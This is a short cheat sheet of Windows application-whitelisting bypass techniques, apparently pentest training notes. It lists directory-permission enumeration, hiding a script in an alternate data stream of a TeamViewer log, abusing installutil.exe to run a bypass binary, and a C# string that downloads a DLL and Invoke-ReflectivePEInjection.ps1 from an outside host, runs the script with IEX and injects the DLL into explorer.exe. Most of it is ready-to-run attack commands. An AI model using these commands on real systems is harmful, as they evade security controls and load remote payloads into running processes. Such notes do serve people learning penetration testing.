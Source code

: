 # Look for perms


- https://www.g0dmode.biz/active-directory-enumeration/applocker-enumeration

- Search for writable directories
```cmd
accesschk.exe "student" C:\Windows -wus
```
- Search for executable directories:
```cmd
icacls.exe C:\Windows\Tasks
```

- alternate data streams
```
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

- psh language modes:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

- reflective dll loader, put this in bypass.exe
```
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```
